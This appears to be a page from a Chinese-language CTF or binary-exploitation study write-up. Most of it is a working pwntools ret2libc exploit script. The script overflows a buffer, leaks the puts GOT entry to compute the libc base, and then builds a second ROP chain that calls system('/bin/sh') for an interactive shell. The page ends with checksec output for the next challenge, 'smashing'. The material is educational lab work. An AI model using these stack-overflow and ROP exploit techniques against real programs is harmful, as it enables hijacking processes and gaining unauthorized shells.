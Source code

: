 ```python
main_addr = 0x40064c

#执行某一次函数后，GOT表会存储一个函数在程序中的偏移地址
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
rdi_ret = 0x400713
#lauch_gdb(p)
#pause()

payload = 'A'*0x10
payload += p64(0xdeadbeef)#rbp

#第一次rop 泄露libc基址。只能泄露已经执行过一次的函数的libc地址

payload += p64(rdi_ret) # rip -> gadget地址
payload += p64(puts_got) #pop rdi -> 泄露puts地址 = libc基址+库内偏移
payload += p64(puts_plt) #ret->pop rip ->into puts
payload += p64(vuln_addr) #puts返回 -> final pos

p.sendlineafter('Input:\n',payload)


content = p.readline()[:-1]
libc_base = u64(content.ljust(8,'\x00')) - libc.sym['puts']#计算libc基址
log.info('libc_base:'+hex(libc_base))

system_addr = libc_base + libc.sym['system']#system函数地址
binsh_addr = libc_base + libc.search('/bin/sh').next()#字符串地址

#第二次rop 劫持流程
payload = 'B' * 0x10
payload += p64(0xdeadbeef)
payload += p64(rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

p.sendlineafter('Input:\n',payload)
p.interactive()
```

# 利用程序崩溃信息-`smashing`

## 题目分析

程序`checksec`信息如下

```shell
[*] '/home/hjc/stack_learn/smashing/smashing'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
